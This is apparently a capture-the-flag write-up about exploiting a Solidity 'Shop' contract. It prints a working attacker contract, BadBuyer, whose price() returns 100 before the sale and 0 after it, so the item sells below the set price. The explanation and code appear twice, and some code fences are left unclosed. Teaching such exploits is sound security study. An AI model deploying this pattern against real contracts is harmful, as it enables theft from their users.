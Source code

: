 # Exploiting a Smart Contract Vulnerability in Solidity

In a smart contract level, there is a scenario where one has to buy at a price less than the set price. However, a restriction exists within the contract which checks if `_buyer.price()` is less than the set price. Consequently, attempting to purchase at prices lower than the set price fails.

The contract operates by calling a contract that implements the `Buyer` interface, without the exact implementation details of the `price()` function being known. This creates an opportunity for exploitation by implementing a malicious interface that returns different prices in different calls.

## Implementation

    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    interface Buyer {
      function price() external view returns (uint);
    }
    
    contract Shop {
      uint public price = 100;
      bool public isSold;
    
      function buy() public {
        Buyer _buyer = Buyer(msg.sender);
    
        if (_buyer.price() >= price && !isSold) {
          isSold = true;
          price = _buyer.price();
        }
      }
    }


To exploit this vulnerability, we create a contract BadBuyer that implements the Buyer interface. This contract manipulates the price() function to return different values based on certain conditions.

    ```solidity
    contract BadBuyer is Buyer { 
      Shop target;
      constructor(address _target) {
        target = Shop(_target);
      }
    
      function price() external view override returns (uint) {
        return target.isSold() ? 0 : 100;
      }
    
      function pwn() public {
        target.buy();
      }
    }


# Exploiting a Smart Contract Vulnerability in Solidity

In a smart contract level, there is a scenario where one has to buy at a price less than the set price. However, a restriction exists within the contract which checks if `_buyer.price()` is less than the set price. Consequently, attempting to purchase at prices lower than the set price fails.

The contract operates by calling a contract that implements the `Buyer` interface, without the exact implementation details of the `price()` function being known. This creates an opportunity for exploitation by implementing a malicious interface that returns different prices in different calls.

## Implementation
    
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    interface Buyer {
      function price() external view returns (uint);
    }
    
    contract Shop {
      uint public price = 100;
      bool public isSold;
    
      function buy() public {
        Buyer _buyer = Buyer(msg.sender);
    
        if (_buyer.price() >= price && !isSold) {
          isSold = true;
          price = _buyer.price();
        }
      }
    }

To exploit this vulnerability, we create a contract BadBuyer that implements the Buyer interface. This contract manipulates the price() function to return different values based on certain conditions.

    ```solidity
    contract BadBuyer is Buyer { 
      Shop target;
      constructor(address _target) {
        target = Shop(_target);
      }
    
      function price() external view override returns (uint) {
        return target.isSold() ? 0 : 100;
      }
    
      function pwn() public {
        target.buy();
      }
    }

### Exploitation
The BadBuyer contract returns different prices depending on whether the shop is sold or not. This inconsistency can be exploited to bypass the restriction set by the shop contract. By calling the pwn() function of the BadBuyer contract, the buy() function of the shop contract is invoked, potentially allowing a purchase at a price lower than the set price.

Submit an instance of the BadBuyer contract to exploit the vulnerability and potentially clear the level.

